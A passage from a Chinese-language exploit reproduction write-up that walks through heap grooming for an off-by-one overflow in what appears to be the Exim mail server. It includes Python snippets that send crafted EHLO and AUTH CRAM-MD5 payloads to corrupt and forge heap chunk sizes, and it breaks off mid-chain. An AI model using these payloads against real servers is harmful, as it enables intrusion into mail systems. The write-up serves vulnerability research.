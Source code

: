 从unsorted bin分配新的storeblock。发送的unrecongnized command的大小满足`length + nonprintcount*3 + 1 &gt; yield_length`，store_get函数就能调用malloc函数分配一个新的storeblock。<br>[![](https://p0.ssl.qhimg.com/t017e87f1ff8942e531.png)](https://p0.ssl.qhimg.com/t017e87f1ff8942e531.png)

[![](https://p3.ssl.qhimg.com/t01ac9efd5458955cd4.png)](https://p3.ssl.qhimg.com/t01ac9efd5458955cd4.png)<br>
此时的堆布局如下图所示。<br>[![](https://p2.ssl.qhimg.com/t0135c1765fcc91f261.jpg)](https://p2.ssl.qhimg.com/t0135c1765fcc91f261.jpg)

### <a class="reference-link" name="5.3%20%E5%8F%91%E9%80%81ehlo%E5%9B%9E%E6%94%B6unrecongnized%20command%E5%88%86%E9%85%8D%E7%9A%84%E5%86%85%E5%AD%98"></a>5.3 发送ehlo回收unrecongnized command分配的内存

```
ehlo(s, "c"*(0x2c00))
```

ehlo 0x2c00字节，回收unrecongnized command分配的内存，空出0x2020个字节。在docker环境的调试中，有研究人员提到，由于之前的`ehlo(s, "a"*0x20)`占用的0x30字节的内存释放，会空出0x30+0x2020=0x2050字节空间内存，但我的真实环境却不是这样。<br>[![](https://p2.ssl.qhimg.com/t0141bac679768c79a0.png)](https://p2.ssl.qhimg.com/t0141bac679768c79a0.png)<br>
如上图所示，之前`ehlo(s, "a"*0x20)`占用的0x30字节内存并未释放，只空出0x2020字节空间。此时的堆布局如下图所示。<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f7b0789743136c48.jpg)

### <a class="reference-link" name="5.4%20%E5%8F%91%E9%80%81auth%EF%BC%8C%E8%A7%A6%E5%8F%91off-by-one%E6%BC%8F%E6%B4%9E%EF%BC%8C%E4%BF%AE%E6%94%B9chunk%E5%A4%A7%E5%B0%8F"></a>5.4 发送auth，触发off-by-one漏洞，修改chunk大小

```
docmd(s, "AUTH CRAM-MD5")
payload1 = "d"*(0x2020-0x18-1)
docmd(s, b64encode(payload1)+"EfE")
```

`payload1 = "d"*(0x2020-0x18-1)`这句代码跟docker环境中的代码不一样，少加了一个0x30，上一步中已经说明实际环境中`ehlo(s, "a"*0x20)`占用的0x30字节内存并未释放。<br>[![](https://p3.ssl.qhimg.com/t0122166811f8ee2e64.png)](https://p3.ssl.qhimg.com/t0122166811f8ee2e64.png)

[![](https://p5.ssl.qhimg.com/t0159f4430e86b81c59.png)](https://p5.ssl.qhimg.com/t0159f4430e86b81c59.png)<br>
此时的堆布局如下图所示。<br>[![](https://p5.ssl.qhimg.com/t0166bf5d733e1af593.jpg)](https://p5.ssl.qhimg.com/t0166bf5d733e1af593.jpg)<br>
从0x2c10被溢出为0x2cf1，下一个chunk应该从0x5656564ea050 + 0x2cf0 = 0x5656564ecd40开始，现在这里并没有chunk信息，下一步需要在这里伪造chunk信息。

### <a class="reference-link" name="5.5%20%E5%8F%91%E9%80%81auth%EF%BC%8C%E4%BC%AA%E9%80%A0chunk%E4%BF%A1%E6%81%AF"></a>5.5 发送auth，伪造chunk信息

```
docmd(s, "AUTH CRAM-MD5")
payload2 = p64(0x1f41)+'m'*0x70 # modify fake size
docmd(s, b64encode(payload2))
```
